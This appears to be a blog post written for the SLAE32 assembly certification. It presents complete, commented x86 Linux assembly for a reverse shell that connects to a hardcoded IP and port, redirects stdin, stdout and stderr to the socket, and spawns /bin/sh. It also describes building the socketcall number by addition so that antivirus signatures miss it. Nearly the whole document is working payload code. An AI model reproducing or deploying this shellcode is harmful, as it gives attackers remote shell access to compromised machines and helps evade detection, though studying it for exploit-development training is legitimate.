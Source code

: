 ```yaml
---
layout: post
title: SLAE32  Assignment 2 - reverse shell
excerpt: asm code and comment for my revshell
---
```


    ; name       : tcprevshell
    ; author     : Sandro "guly" Zaccarini SLAE-1037
    ; purpose    : the program will create a new connection to a given ip/port and present a shell to it
    ;              this code has been written for SLAE32 assignment 2
    ; references : https://syscalls.kernelgrok.com/ , /usr/include/linux/net.h , man socketcall
    ; license    : CC-BY-NC-SA
    ;
    ; high level flow:
    ; socket -> connect -> dup fd -> spawn /bin//sh
    ;
    ; i'll use different function name to keep it more readable. mostly, function are never called and are used just as "anchor for the human eyes"
    
      global _start
    
      section .text
    
    ; dummy function used to break easily on gdb while debugging, just rets without touching anything
    ; i used to place a call trap and recompile, while having a "b trap" on ~/.gdbinit
      trap:
    ret
    
      zero:
    ; zero eax and ebx by xoring against themself
    xor eax,eax
    xor ebx,ebx
    ret
    
      socketcall2eax:
    ; place syscall code for socketcall in eax, which is 0x66, no need to zero because i use mov.
    ; i'm using add to avoid hardcoded 0x66 call, which could be trapped by some AV, when 0x33 is the call acct and looks harmless to me
    mov al,0x33
    add al,0x33
    ret
    
    ; main code starts here
      _start:
    ; start by zeroing eax,ebx. not really needed because registers are clean, but better safe than sorry
    call zero
    
      createsocket:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : create a socket
    ; references  : man socket
    ; description :
    ; socketcall is the syscall used to work with socket. i'm going to use this syscall to create and connect
    ; the very first thing i have to do, is to create the socket itself. by reading references, i see that she needs 3 registers:
    ; eax => syscall id 0x66 for socketcall, that will be the same for every socketcall call of course and that's why i created a function on top
    ; ebx => socket call id, that is 0x1 for socket creation
    ; ecx => pointer to socket args
    ;
    ; man socket shows me that socket's args are:
    ; domain   => AF_INET because i'm creating a inet socket, and is 0x2
    ; type     => tcp is referenced as STREAM, that is 0x1
    ; protocol => unneded here because there is no inner protocol, so i'll use 0x0
    
    ; not, i'm creating ecx because a zeroed eax is perfect for the purpose
    ; arg will be pushed in reverse order with no hardcoded address: 0, 1, 2
    push eax
    inc eax
    push eax
    inc eax
    push eax
    
    ; because socketcall needs a pointer, i'm moving esp address to ecx
    mov ecx,esp
    
    ; prepare eax to hold the socketcall value as discussed before
    call socketcall2eax
    
    ; because ebx is 0, i can just inc to have it to 1 for socketcall to call socket (pun intended :) )
    inc ebx
    
    ; do the call and create socket
    int 0x80
    
    ; because syscall rets to eax, if everything's good, eax will hold socket file descriptor: save it to esi to have it safe for the whole run
    mov esi,eax
    
      connect:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : connect to raddr:rport
    ; references  : man connect , man 7 ip
    ; description :
    ; eax => syscall id 0x66 for socketcall
    ; ebx => connect call id, 0x3 taken from linux/net.h
    ; ecx => pointer to address struct
    ;
    ; man connect shows me that args are:
    ; sockfd  => already saved in esi
    ; address => pointer to ip struct
    ; addrlen => addrlen is 32bit (0x10)
    ;
    ; man 7 ip shows address struct details. arguments are:
    ; family => AF_INET, so 0x2
    ; port   => held by rport from .data
    ; addr   => held by raddr from .data
    
    ; again, better safe than sorry
    call zero
    
    ; push arg in reverse and move the pointer to ecx
    ; prepare stack pointer to addr struct defined in man 7 ip
    ; push raddr, defined in .data
    push raddr
    ; push port to bind to, defined in .data. pushed as word.
    push word rport
    ; push AF_INET value as word again
    push word 0x2
    ; get stack pointer to ecx
    mov ecx,esp
    
    ; push arg, again in reverse order
    ; addrlen is fixed to 16, or 0x10
    push byte 0x10
    ; pointer to addr struct
    push ecx
    ; sockfd, saved before to esi
    push esi
    ; stack pointer to ecx again, to feed bind socketcall
    mov ecx,esp
    
    ; ebx has been zeroed, mov 0x3 to him
    mov bl,0x3
    
    ; same call to have 0x66 to eax and do socketcall
    call socketcall2eax
    
    ; do the call
    int 0x80
    
      dupfd:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : create fd used by /bin//sh
    ; references  : man dup2
    ; description : every shell has three file descriptor: STDIN(0), STDOUT(1), STDERR(2)
    ; this code will create said fd
    ; eax => 0x3f got from kernelgrok website
    ; ebx => clientid
    ; ecx => newfd id, said file descriptor
    ;
    ; i'm going to create them by looping using ecx, to save some instruction. ecx will start at 2, then is dec and fd is created.
    ; as soon as ecx is 0, the loop ends
    
    
    ; i'm using a different method from one i've used for bindshell just to try.
    ; i'll put 0x3 to ecx to start creating STDERR just after dec
    ; ecx is dirty but edx is 0x0, just swap them
    xchg ecx,edx
    mov cl,0x3
    
    ; copy socket fd to ebx to feed clientid
    mov ebx,esi
    
    ; zero eax and start the loop
    xor eax,eax
      dup2:
    ; dup2 call id
    mov al,0x3f
    
    ; dec ecx to have 2,1,0
    dec ecx
    int 0x80
    ; loop until ecx is 0x0, we then have 3 runs: with 2, 1, 0 values
    jnz dup2
    
      spawnshell:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : spawn /bin//sh
    ; references  : man execve
    ; description : put /bin//sh on the stack, aligned to 8 bytes to prevent 0x00 in the shellcode itself
    ; and null terminating it by pushing a zeroed register at first
    ; eax => execve call, 0xB
    ; ebx => pointer to executed string, which will be /bin//sh null terminated
    ; ecx => pointer to args to executed command, that could be 0x0
    ; edx => pointer to environment, which could be 0x0
    ;
    ; i need to push a null byte to terminate the string, easiest way is to zero a reg and push it but i know ecx is 0x0 so i can save one op
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    ; here the stack will looks like a null terminated /bin/sh:
    ; /bin//sh\0\0\0\0\0\0\0\0
    
    ; and place pointer to ebx
    mov ebx,esp
    
    ; envp to edx and ecx
    push ecx
    mov edx,esp
    push ecx
    mov ecx,esp
    
    ; execve syscall here
    mov al,0xB
    
    ; and pop shell
    int 0x80
    
     _end:
    ; neat exit
    xor eax,eax
    mov al,0x1
    int 0x80
    
      section .data
    ; 65533 converted in hex, then little endian
    rport equ 0xFDFF
    ; 172.16.201.162 in hex, then little endian
    ; i'm lucky that i don't have any 0 in my address, else raddr will contain null bytes. i'm going to publish also a 02_revshell_tcp_127.0.0.1.asm to challenge myself a bit
    raddr equ 0xa2c910ac
    
    ; This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
